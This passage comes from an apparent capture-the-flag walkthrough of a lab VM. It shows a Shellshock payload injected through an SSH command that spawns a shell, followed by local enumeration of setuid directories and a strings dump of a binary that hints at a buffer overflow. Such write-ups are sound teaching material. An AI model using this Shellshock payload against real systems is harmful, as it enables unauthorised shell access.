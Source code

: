 I tried to feed it commands by tagging them on the end, the connection hung then dropped with no message.

I googled some shellshock options and managed to spawn a shell with:

<code>ssh -i noob noob@192.168.145.129 '() { :;}; /bin/bash'</code>

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">shellshock ssh</p>
      <div class="shell">
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">ssh -i noob noob@192.168.145.129 '() { :;}; /bin/bash'</span></p>
          <span class="output"><br></span>
          <span class="output">id<br></span>
          <span class="output">uid=1002(noob) gid=1002(noob) groups=1002(noob)<br></span>
        </p>
      </div>
    </div>
</section>


##Local Enumeration

Transfered my local enumeration script to the target, disclosing the following odd sticky bit files:

{% highlight bash %}
#########################################
## Sticky Bit                          ##
#########################################

drwsr-xr-x 3 root root 4096 Dec 29 19:00 /nothing_to_see_here
drwsr-xr-x 5 root root 4096 Oct  4 22:36 /nothing_to_see_here/choose_wisely
drwsr-xr-x 2 root root 4096 Oct  5 21:19 /nothing_to_see_here/choose_wisely/door2
drwsr-xr-x 2 root root 4096 Oct  5 21:18 /nothing_to_see_here/choose_wisely/door3
drwsr-xr-x 2 root root 4096 Oct  4 22:19 /nothing_to_see_here/choose_wisely/door1
{% endhighlight %}

Each of the door directories contained a file called r00t, du -sh * in the parent dir <code>choose_wisely</code> showed one of the files was larger - I started there.

<code>od -S 1 r00t</code> was used against each of the files, the larget file contained:

{% highlight bash %}
0017545 bof.c
0017553 __init_array_end
0017574 _DYNAMIC
0017605 __init_array_start
0017630 _GLOBAL_OFFSET_TABLE_
0017656 __libc_csu_fini
0017676 __i686.get_pc_thunk.bx
0017725 data_start
0017740 printf@@GLIBC_2.0
0017762 _edata
0017771 _fini
0017777 strcpy@@GLIBC_2.0
0020021 __DTOR_END__
0020036 __data_start
0020053 __gmon_start__
0020072 exit@@GLIBC_2.0
0020112 __dso_handle
0020127 _IO_stdin_used
0020146 __libc_start_main@@GLIBC_2.0
0020203 __libc_csu_init
{% endhighlight %}
